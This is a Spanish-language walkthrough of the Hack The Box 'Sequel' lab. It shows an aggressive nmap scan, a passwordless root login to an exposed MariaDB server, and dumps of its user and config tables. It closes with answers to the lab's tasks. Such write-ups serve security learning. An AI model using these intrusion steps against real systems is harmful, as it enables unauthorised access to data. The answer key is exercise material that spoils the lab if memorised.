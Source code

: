 ```yaml
---
title: Hack The Box - Starting Point - Tier 1 - Sequel Writeup
date: 2022-08-10 09:10:00 +0800
categories: ["Hack The Box"]
tags: [htb, writeups]     # TAG names should always be lowercase
---
```


Este post forma parte de la serie **Tier 1** del **Starting Point** de [HTB](https://app.hackthebox.com/starting-point) que iniciamos [aquí]({% post_url 2022-08-10-htb-writeup-tier1-appointment %}).

## Sequel

El primer paso será iniciar la máquina (para lo que previamente tendremos que tener establecida nuestra conexión VPN)

![](/assets/posts/20220810/img08.png)

Las tags de este box no dan varias pistas de por donde van los tiros.

Copiamos la IP del equipo remoto, en mi caso *10.129.217.57*, y lanzamos un **nmap**.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier1]
└─$ nmap -A 10.129.217.57 -oN nmap_output
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-09 20:16 CEST
Nmap scan report for 10.129.217.57
Host is up (0.086s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
|_sslv2: ERROR: Script execution failed (use -d to debug)
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 84
|   Capabilities flags: 63486
|   Some Capabilities: SupportsCompression, ConnectWithDatabase, Support41Auth, FoundRows, InteractiveClient, Speaks41ProtocolOld, ODBCClient, SupportsTransactions, LongColumnFlag, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, IgnoreSigpipes, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: >Rd~p4Pu!>TnMrx&PB;>
|_  Auth Plugin Name: mysql_native_password
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 204.38 seconds
```

Significado de las flags:

* `-A`&nbsp;: escaneo completo (aka agresivo) que ejecuta OS detection, version detection, script scanning y traceroute todo del tirón.
* `-oN`&nbsp;: imprime la salida en un fichero de texto con el nombre *nmap_output*

OK. Tenemos un servicio *mysql* escuchando en el puerto *3306/tcp*, concretamente una *5.5.5-10.3.27-MariaDB-0+deb10u1*

Iniciamos nuestro cliente **mysql** en local, con *root* como usuario y sin contraseña, y nos ponemos a trastear.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier1]
└─$ mysql -h 10.129.217.57 -u root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 77
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.041 sec)

MariaDB [(none)]> use htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.038 sec)

MariaDB [htb]> select * FROM users;
+----+----------+------------------+
| id | username | email            |
+----+----------+------------------+
|  1 | admin    | admin@sequel.htb |
|  2 | lara     | lara@sequel.htb  |
|  3 | sam      | sam@sequel.htb   |
|  4 | mary     | mary@sequel.htb  |
+----+----------+------------------+
4 rows in set (0.039 sec)

MariaDB [htb]> select * FROM config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.038 sec)

MariaDB [htb]>
```

Bingo !

## Respuestas:

* <strong>Task 1</strong>: Structured Query Language
* <strong>Task 2</strong>: 3306
* <strong>Task 3</strong>: MariaDB
* <strong>Task 4</strong>: -u
* <strong>Task 5</strong>: root
* <strong>Task 6</strong>: *
* <strong>Task 7</strong>: ;

